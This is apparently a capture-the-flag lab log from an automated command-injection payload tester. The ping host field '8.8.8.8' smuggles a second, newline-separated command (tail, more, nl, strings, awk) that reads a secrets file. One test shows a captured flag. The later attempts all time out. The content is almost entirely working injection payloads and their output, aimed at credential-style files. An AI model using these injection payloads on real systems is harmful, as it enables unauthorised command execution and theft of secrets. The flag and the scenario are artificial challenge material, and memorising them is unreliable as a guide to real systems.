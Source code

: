 --- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.655/3.748/3.792/0.054 ms
citadel{bl4ck51t3_4cc3ss_gr4nt3d}

================================================================================

[2/15] Testing: READ with tail

================================================================================
PAYLOAD: READ with tail
Command: 8.8.8.8
tail /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
--------------------------------------------------------------------------------
ERROR: Request timed out
================================================================================

[3/15] Testing: READ with more

================================================================================
PAYLOAD: READ with more
Command: 8.8.8.8
more /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
--------------------------------------------------------------------------------
ERROR: Request timed out
================================================================================

[4/15] Testing: READ with nl

================================================================================
PAYLOAD: READ with nl
Command: 8.8.8.8
nl /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
--------------------------------------------------------------------------------
ERROR: Request timed out
================================================================================

[5/15] Testing: READ with strings

================================================================================
PAYLOAD: READ with strings
Command: 8.8.8.8
strings /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
--------------------------------------------------------------------------------
ERROR: Request timed out
================================================================================

[6/15] Testing: READ with awk

================================================================================
PAYLOAD: READ with awk
Command: 8.8.8.8
awk '{print}' /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
--------------------------------------------------------------------------------
ERROR: Request timed out
================================================================================
